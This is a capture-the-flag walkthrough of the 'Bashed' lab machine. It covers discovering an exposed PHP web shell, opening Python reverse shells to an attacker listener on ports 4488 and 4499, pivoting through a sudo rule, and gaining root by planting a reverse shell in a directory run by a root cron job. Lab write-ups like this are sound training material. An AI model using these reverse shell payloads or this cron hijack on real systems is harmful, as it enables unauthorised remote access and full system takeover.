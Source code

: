 # IP Address: 10.10.10.68

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.68 -t all

Running all scans on 10.10.10.68

Host is likely running Linux

---------------------Starting Script Scan-----------------------


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

```

### HTTP
Browsing to the site, we see some potentially useful information. 

![site1](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211113203204.png)

Fuzzing, we found http://10.10.10.68/dev/phpbash.php which looks to be a php shell.

![site2](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211113203534.png)

The output show us that this shell will not allow us to leverage the sudo privileges of the www-data user without a TTY shell. 
```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed
:/var/www/html/dev# sudo /bin/sh

sudo: no tty present and no askpass program specified
```

# Exploitation

Create a reverse shell with python and catch it with our netcat listener. 

On target:
```
www-data@bashed
:export RHOST="10.10.14.7";export RPORT=4488;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

--2021-11-13 17:46:38-- http://10.10.14.7/shell.php
```

Locally: 
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                  
listening on [any] 4488 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 35358
$ 
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$

```

We can run any command as scriptmanager using this format:
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager ls
sudo -u scriptmanager ls
phpbash.min.php  phpbash.php
```

To get shell as scriptmanager:
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

user.txt 

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211113224301.png)

# Privilege Escalation
In looking around the file system, we notice a /scripts directory in /root. In it there is a python script owned by our user (scriptmanager) which produces a test.txt file owned by root. 
```
scriptmanager@bashed:~$ ls -alh /scripts
ls -alh /scripts
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 13 19:55 test.txt
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ cat test.txt     
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

```

In current running processes we see that root is running a cron job periodically to execute all .py files in the /scripts directory.

```
root        848  0.0  0.2  50220  2852 ?        S    17:04   0:00  _ /usr/sbin/CRON -f
root        849  0.0  0.0   4508   708 ?        Ss   17:04   0:00  |   _ /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
root        851  0.0  0.7  35080  7072 ?        S    17:04   0:00  |       _ python test2.py
root        852  0.0  0.3  21164  3576 pts/3    Ss+  17:04   0:00  |           _ /bin/bash

```

Create a new python file to execute the reverse shell script used previously, this time on a different port. Wait for the shell.

On target: 
```
scriptmanager@bashed:~$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",4499));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > test2.py

```

Locally:
```
┌──(code㉿kali)-[~]                                                                     
└─$ nc -nlvp 4499                                                                                                                                     
listening on [any] 4499 ...                                                                                                                                        
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 59774                                                                                                         
# id
id
uid=0(root) gid=0(root) groups=0(root)

```


# Proof

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211114201829.png)
